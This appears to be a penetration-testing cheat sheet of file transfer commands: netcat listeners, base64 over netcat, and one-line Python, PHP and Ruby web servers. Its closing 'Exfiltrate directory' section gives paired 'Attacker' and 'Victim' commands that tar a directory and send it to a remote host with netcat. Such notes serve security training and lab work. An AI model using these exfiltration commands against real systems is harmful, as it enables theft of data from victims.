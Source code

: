 # File transfer methods

## Simple netcat
```
nc -lnvp 1337 > <file>
cat <file> | nc <ip> 1337
```

## Netcat with base64
```
base64 -w 0 <file> | nc <ip> 1337
nc - lvvp 1337 | base64 -d file
```

## Python2 HTTP server
```
python -m SimpleHTTPServer <port>
```

## Python3 HTTP server
```
python3 -m http.server <port>
```

## Python FTP server
```
python -m pyftpdlib -p<port> -w
```

## PHP web server
```
php -S <ip>:<port>
```

## Ruby web server
```
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"
```

## Exfiltrate directory
Attacker: `nc -l <port> | tar xf -`
Victim: `tar cf - . | nc <ip> <port>`
```
